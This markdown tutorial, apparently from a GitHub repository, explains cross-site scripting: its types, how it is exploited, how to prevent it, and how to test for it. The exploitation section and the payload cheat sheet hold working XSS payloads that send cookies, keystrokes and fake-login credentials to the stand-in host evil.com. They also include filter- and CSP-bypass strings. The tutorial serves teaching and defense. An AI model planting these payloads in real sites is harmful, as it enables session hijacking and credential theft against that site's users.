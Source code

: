 # Web-App-Vulns-Explained


### **📄 XSS Explanation in Markdown File**
#### **`xss_explained.md`**
````markdown
# 🔥 Cross-Site Scripting (XSS) – A Deep Dive

## 🎯 What is XSS?
**Cross-Site Scripting (XSS)** is a **client-side** web security vulnerability that allows an attacker to inject **malicious JavaScript** into a website, which then gets executed in a victim's browser. This can lead to:
- **Session hijacking**
- **Phishing attacks**
- **Data theft**
- **Account takeover**

---

## 🔥 Types of XSS

### 1️⃣ Stored XSS (Persistent)
- The **malicious script is stored** on the website (e.g., in a database).
- It affects **all users** who visit the infected page.
- Common in **comment sections, user profiles, and feedback forms**.

**Example Attack:**
1. An attacker posts the following comment:
   ```html
   <script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>
   ```
2. The script gets **saved in the database**.
3. When other users visit the page, their cookies are **stolen** and sent to `evil.com`.

---

### 2️⃣ Reflected XSS (Non-Persistent)
- The script is **not stored** but **reflected** back in the HTTP response.
- The attack works only when the victim **clicks a malicious link**.

**Example Attack:**
1. The attacker tricks the victim into visiting:
   ```
   https://victim.com/search?q=<script>alert(1)</script>
   ```
2. The server includes the unsanitized input in the response:
   ```html
   <p>Search results for: <script>alert(1)</script></p>
   ```
3. The browser **executes** the JavaScript.

---

### 3️⃣ DOM-Based XSS
- The script is **not injected via HTTP responses** but **executed in the browser**.
- Happens when JavaScript **modifies the DOM** insecurely.

**Example Vulnerable Code:**
```html
<script>
    var search = new URLSearchParams(window.location.search);
    document.write("Search: " + search.get("q")); // ❌ UNSAFE
</script>
```
**Attack URL:**
```
https://victim.com/?q=<script>alert(1)</script>
```
📌 **Impact:** Attacker can **control the DOM** and execute arbitrary JavaScript.

---

## 🚀 How XSS Can Be Exploited

### 1️⃣ Cookie Theft (Session Hijacking)
**Payload:**
```html
<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>
```
📌 **Impact:**  
- Steals **session cookies** → Leads to **account takeover**.

---

### 2️⃣ Keylogging & Credential Theft
**Payload:**
```html
<script>
document.onkeypress = function(e) {
    fetch('https://evil.com/log?key=' + e.key);
};
</script>
```
📌 **Impact:**  
- Captures user keystrokes (passwords, messages, etc.).

---

### 3️⃣ Fake Login Forms (Phishing)
**Payload:**
```html
<script>
document.body.innerHTML = '<form action="https://evil.com" method="POST">'+
'<input name="username" placeholder="Enter username">'+
'<input name="password" type="password" placeholder="Enter password">'+
'<input type="submit"></form>';
</script>
```
📌 **Impact:**  
- Creates a **fake login form** to **steal credentials**.

---

## 🔐 How to Prevent XSS

### ✅ 1. Input Sanitization
- **Escape special characters** (`< > " ' &`) before displaying user input.

**Example (PHP):**
```php
echo htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8');
```

---

### ✅ 2. Content Security Policy (CSP)
- Restrict JavaScript execution to **trusted sources**.

**Example CSP header:**
```
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com;
```

📌 **Prevents** inline scripts & untrusted JavaScript sources.

---

### ✅ 3. Secure JavaScript Handling
- Avoid `document.write()`:
  ```js
  document.write("<script>alert(1)</script>"); // ❌ UNSAFE
  ```
- Instead, use **safe DOM manipulation**:
  ```js
  var node = document.createElement("p");
  node.textContent = userInput; // ✅ SAFE
  document.body.appendChild(node);
  ```

---

### ✅ 4. HTTP-Only Cookies
- Prevent JavaScript from accessing session cookies:
  ```
  Set-Cookie: sessionid=abcd1234; HttpOnly; Secure
  ```

📌 **Mitigates session hijacking** via XSS.

---

## 🕵️ How to Find XSS (Bug Bounty/Pentesting)

### 🔍 Testing for Stored XSS
1. Enter payloads in **input fields (comments, profiles, feedback forms)**:
   ```html
   <script>alert('XSS')</script>
   ```
2. Refresh the page and check if the alert executes.

---

### 🔍 Testing for Reflected XSS
1. Try **URL parameters**:
   ```
   https://victim.com/search?q=<script>alert(1)</script>
   ```
2. Check if the script **reflects** in the response.

---

### 🔍 Testing for DOM-Based XSS
1. Look for JavaScript using `document.write()`, `innerHTML`, `eval()`:
   ```js
   document.write(location.search);
   ```
2. Test payloads:
   ```
   https://victim.com/?q=<script>alert(1)</script>
   ```

---

## 🛠️ XSS Cheat Sheet (Payloads)

🔹 **Basic Payload**
```html
<script>alert(1)</script>
```

🔹 **Bypassing `alert()` filters**
```html
<svg onload=confirm(1)>
```

🔹 **Executing JavaScript via `href`**
```html
<a href="javascript:alert(1)">Click me</a>
```

🔹 **Event-Based XSS**
```html
<img src="x" onerror="alert(1)">
```

🔹 **Bypassing CSP using JSONP**
```html
<script src="https://trusted.com/callback?param=<script>alert(1)</script>"></script>
```

---

## 🎯 Final Takeaways
✅ **XSS is dangerous** because it executes **malicious JavaScript** in the victim’s browser.  
✅ **Stored XSS is the worst** since it affects multiple users.  
✅ **Reflected XSS requires user interaction** (e.g., clicking a link).  
✅ **DOM XSS is harder to detect** but **still very dangerous**.  
✅ **Proper sanitization, escaping, and CSP policies** can prevent XSS.  

---

🔎 **Want to test XSS in a lab?** I can help you set up a test environment! 🚀
````

---
